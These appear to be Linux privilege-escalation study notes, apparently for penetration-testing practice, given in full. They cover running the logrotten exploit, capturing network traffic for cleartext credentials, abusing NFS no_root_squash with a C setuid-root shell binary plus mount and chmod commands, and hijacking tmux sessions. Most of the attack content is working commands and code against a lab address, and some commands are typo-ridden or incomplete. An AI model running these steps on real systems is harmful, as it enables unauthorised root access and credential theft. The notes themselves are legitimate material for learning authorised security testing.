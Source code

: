 Run the exploit
Create:
```shell
./logrotten -p ./payload /tmp/tmp.log
```
Compress:
```shell
./logrotten -p ./payloadfile -c -s 4 /tmp/log/pwnme.log
```
### Miscellaneous Techniques 
#### Passive Traffic Capture
* if `tcpdump` is installed users may be able to capture network traffic, and as such may be able to get credentials in clear text.
* Tools can used to examine date being passed on the wire.
	* https://github.com/DanMcInerney/net-creds
	* https://github.com/lgandx/PCredz
#### Weak NFS Privileges
* Allows users to access shared files or directories
```shell
 showmount -e 10.129.2.12
```
When a volume is created these options can be set:

|Option|Description|
|---|---|
|`root_squash`|If the root user is used to access NFS shares, it will be changed to the `nfsnobody` user, which is an unprivileged account. Any files created and uploaded by the root user will be owned by the `nfsnobody` user, which prevents an attacker from uploading binaries with the SUID bit set.|
|`no_root_squash`|Remote users connecting to the share as the local root user will be able to create files on the NFS server as the root user. This would allow for the creation of malicious scripts/programs with the SUID bit set.|
```shell
cat /etc/exports
```

Can you make a binary that sets a suid?
```shell
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```
```shell
gcc shell.c -o shell
```
```shell
sudo mount -t nfs 10.129.2.12:/tmp /mnt
cp shell /mnt
chmod u+s /mnt/shell
```

#### Hijacking Tmux Sessions
* If your not working in a session you can detach it but still leave it active. 
##### Check for running Tmux Processes
```shell
 ps aux | grep tmux
```
Check Permissions
```shell
ls -la /<session name>
```
Attack to Tmux session
```shell
tmux -S /shareds
```
